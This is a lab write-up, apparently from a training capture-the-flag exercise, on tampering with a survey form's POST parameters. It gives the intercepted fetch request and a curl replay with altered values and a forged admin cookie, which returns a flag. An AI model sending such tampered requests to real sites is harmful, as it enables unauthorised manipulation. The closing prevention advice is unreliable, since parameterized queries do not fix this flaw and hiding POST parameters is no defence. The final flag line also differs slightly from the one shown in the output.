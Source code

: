 # Parameter pollution
- a technique where attackers manipulate HTTP parameters to alter the behavior of a web application in unintended ways
- this manipulation is achieved by adding, modifying, or duplicating POST data
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<b>keywords</b>: survey<br>
<b>attacked site</b>: http://borntosec.42/?page=survey#

## Exploit
Upon examining the network traffic for the survey website and sending a sample request, we intercept a fetch request:
``` http
FETCH:
await fetch("http://borntosec.42/?page=survey#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1"
    },
    "referrer": "http://borntosec.42/?page=survey",
    "body": "sujet=5&valeur=2",
    "method": "POST",
    "mode": "cors"
});
```
We observe that two parameters, <code>sujet</code> and <code>valeur</code>, are sent to the server. This means we can manipulate the POST data:
```
sujet=$number1&valeur=$number2
```
By sending a modified request with <code>cURL</code> and filtering for the flag, after multiple tries we find that setting both parameters to 42 yields a successful result:
``` shell
└─$ curl 'http://borntosec.42/?page=survey#' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://borntosec.42' -H 'Connection: keep-alive' -H 'Referer: http://borntosec.42/?page=survey' -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'sujet=42&valeur=42' | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
1<center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">
00  1498    0  1480  100    18   470k   5855 --:--:-- --:--:-- --:--:--  731k
```
The flag is included in the response:
```
The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
```

## Flag
03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaaq

## Exploit prevention
- use parameterized queries
- hide the parameters in POST requests and use CSRF tokens

